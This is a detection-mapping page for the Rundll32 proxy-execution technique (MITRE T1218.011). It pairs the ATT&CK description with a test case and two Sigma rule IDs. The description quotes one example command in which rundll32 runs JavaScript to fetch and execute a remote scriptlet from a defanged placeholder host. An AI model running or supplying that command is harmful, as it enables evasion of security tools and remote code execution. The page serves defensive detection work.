 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Rundll32 

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads.

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.011


# Test : Execution of non-dll using rundll32.exe
## OS
  - windows


## Description:
Rundll32.exe running non-dll 


# Sigma Rule
 - posh_ps_suspicious_keywords.yml (id: 1f49f2ab-26bc-48b3-96cc-dcffbc93eadf)

 - win_run_executable_invalid_extension.yml (id: c3a99af4-35a9-4668-879e-c09aeb4f2bdf)



[back](../index.md)
